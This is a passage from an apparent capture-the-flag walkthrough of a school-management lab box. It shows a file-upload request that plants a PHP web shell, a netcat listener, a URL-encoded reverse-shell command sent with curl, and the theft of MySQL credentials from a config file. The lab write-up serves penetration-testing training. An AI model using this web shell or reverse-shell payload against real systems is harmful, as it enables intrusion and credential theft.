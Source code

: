 ```
1
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="file_type"

txt
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="status"

1
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="description"

123123
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="_wysihtml5_mode"

1
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="file_name"; filename="cmd.php"
Content-Type: application/octet-stream

<?php system($_GET["cmd"]); ?>
-----------------------------183813756938980137172117669544--
```

The uploaded shell can be found in `http://school.pg/management/uploads/exam_question/cmd.php`.

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/CTF3_image_6_LO4R6HJI.png)

We setup a listener on our attack machine.

```
kali@kali:~$ nc -nlvp 443
listening on [any] 443 ...
```

We proceed by using `curl` to trigger a reverse shell:

```
$ curl school.pg/management/uploads/exam_question/cmd.php?cmd=%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%30%2e%32%2e%32%20%39%30%30%33%20%3e%2f%74%6d%70%2f%66 # rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.2 9003 >/tmp/f
```

Once on the box we discover the `/var/www/html/management/application/config/database.php` file which contains a set of MYSQL credentials.

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/CTF3_image_7_PO9IR5NH.png)

After logging into the database, we see a list of tables, and after going through each we discover an entry in the `teacher` database:

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/CTF3_image_8_WR2EM7LP.png)

